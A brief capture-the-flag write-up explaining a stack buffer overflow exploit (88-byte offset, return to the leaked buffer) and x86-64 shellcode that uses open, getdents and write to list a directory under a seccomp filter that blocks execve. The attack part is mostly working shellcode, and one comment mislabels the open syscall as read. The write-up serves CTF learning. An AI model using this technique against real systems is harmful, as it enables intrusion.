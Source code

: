 # Notsimple: ret2stack + seccomp bypass + write ls in asm

There is an executable stack
Steps:
1. There is a buffer overflow with 88 offset
2. return to the leaked address(points to the start of the buffer)
3. fill buffer with shellcode to execute the getdents syscall since execve is disallowed

```asm
mov rax, 0x2e   ; '.'
push rax

mov rax, 2      ; read('.',0,0)
mov rdi, rsp
mov rsi, 0
mov rdx, 0
syscall

mov rdi, rax    ; make space on stack
mov rdx, 0x1000
sub rsp, rdx
mov rsi, rsp
mov rax, 78
syscall         ; getdents(fd, buffer, size)

xchg rax, rdx
mov rax, 1 
mov rdi, 1
mov rsi, rsp    ; write buffer to stdout
syscall
```